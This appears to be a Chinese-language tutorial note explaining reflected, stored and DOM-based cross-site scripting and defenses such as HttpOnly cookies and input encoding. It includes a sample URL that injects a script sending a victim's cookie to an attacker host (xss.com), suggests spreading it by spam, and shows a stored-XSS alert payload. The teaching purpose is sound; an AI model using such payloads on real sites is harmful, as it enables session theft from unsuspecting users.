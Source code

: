 # XSS
xss: 跨站脚本攻击（Cross Site Scripting）是最常见和基本的攻击 WEB 网站方法，为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为XSS。攻击者通过注入非法的 html 标签或者 javascript 代码，从而当用户浏览该网页时，控制用户浏览器。

## 反射性xss（Reflected XSS）
反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。发出请求时，XSS代码出现在URL中，最后输入提交到服务器，服务器解析后在响应内容中出现这段XSS代码，最后浏览器解析执行。

主要通过利用系统反馈行为漏洞，并欺骗用户主动触发，从而发起Web攻击。

**可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：**

```js
http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>
```

如果受骗的用户刚好已经登录过严选网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器（xss.com）了。当然，攻击者会做一些更过分的操作。

## 存储性xss（Stored XSS）
Stored XSS和Reflected XSS的差别就在于，**具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力**。

存储型XSS又被称为持久性XSS，它是最危险的一种跨站脚本，相比反射型XSS和DOM型XSS具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。

1. 发一篇文章，里面包含了恶意脚本
```js
你好！当你看到这段文字时，你的信息已经不安全了！<script>alert('xss')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。

3. 当其他读者看这篇文章的时候，包含的恶意脚本就会执行。

4. 如果我们的操作不仅仅是弹出一个信息，而且删除一篇文章，发一篇反动的文章，或者成为我的粉丝并且将这篇带有恶意脚本的文章转发，这样是不是就具有了攻击性。

## DOM xss  （DOM-based or local XSS）
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

### 可能触发DOM型XSS的属性：
* document.referer属性
* window.name属性
* location属性
* innerHTML属性
* documen.write属性

## 跨站脚本攻击可能造成以下影响：

* 利用虚假输入表单骗取用户个人信息。

* 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

* 显示伪造的文章或图片。

## 防御手段
#### 1. httpOnly
在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息

```js
  // koa
  ctx.cookies.set(name, value, {
      httpOnly: true      // 默认为 true
  })
```

#### 2. 过滤（按规定格式、HtmlEncode、JavaScriptEncode）
* 输入检查

一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。

不仅仅是前端负责，后端也要做相同的过滤检查。

因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。

* HtmlEncode

某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换

![](https://user-gold-cdn.xitu.io/2017/10/11/4d4d037c9605e38189a4f55b017556f1?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

* JavaScriptEncode

对下列字符加上反斜杠

![](https://user-gold-cdn.xitu.io/2017/10/11/051856aa46f5508f0b2737a36c113928?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)
